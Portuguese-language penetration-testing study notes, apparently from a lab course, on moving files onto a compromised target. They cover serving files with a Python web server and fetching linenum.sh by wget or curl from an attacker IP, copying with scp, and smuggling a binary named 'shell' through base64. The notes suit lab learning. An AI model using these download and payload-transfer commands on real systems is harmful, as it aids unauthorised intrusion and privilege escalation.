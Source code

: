 ### Transferring Files
  Geralmente é necessário carregar scripts para a máquina alvo, quando se utiliza 
  o metasploit, é possível enviar alguns arquivos com upload, mas 
  1. Using wget
    Existe algumas formas de realizar isso, a primeira seria utilizando o python, primeiro você vai para a pasta onde está o arquivo que você quer e execute o seguinte comando:
    $ python3 -m http.server 8000
    > Desta forma, quando você estiver no host, basta dar wget e pegar o arquivo.
    ! wget http://10.10.14.1:8000/linenum.sh
    Caso o host não possua o wget, então basta utilizar o cUrl
    $ curl http://10.10.14.1:8000/linenum.sh -o lineenum.sh
  2. Using SCP
    Se tiver conseguido acesso utilizando um ssh, então é possível transferir
    arquivos com o SCP:
    > scp linenum.sh user@remotehost:/tmp/linenum.sh
  3. Using Base64
    Se não for possível fazer downloads no host e nem tiver sido alguma conexão via 
    ssh ou algo do tipo, ainda é possível passar um arquivo para o host, utilizando
    o base64, para isso, você tem que pegar o arquivo binário que você quer passar
    e passa-lo no seguinte código:
    > base64 shell -w 0
    o retorno você copia e cola num arquivo na máquina host, dando um:
    > echo [binário ] | base64 -d > shell
  4. Validating File Transfers
    Para validar o formato de um arquivo, podemos utilizar o comando file
    > file shell
    Para verificar ainda se foi o arquivo exatamente como está, podemos utilizar o md5
    assim verificamos como está o hash dos dois arquivos e se são iguais:
    > md5sum shell
    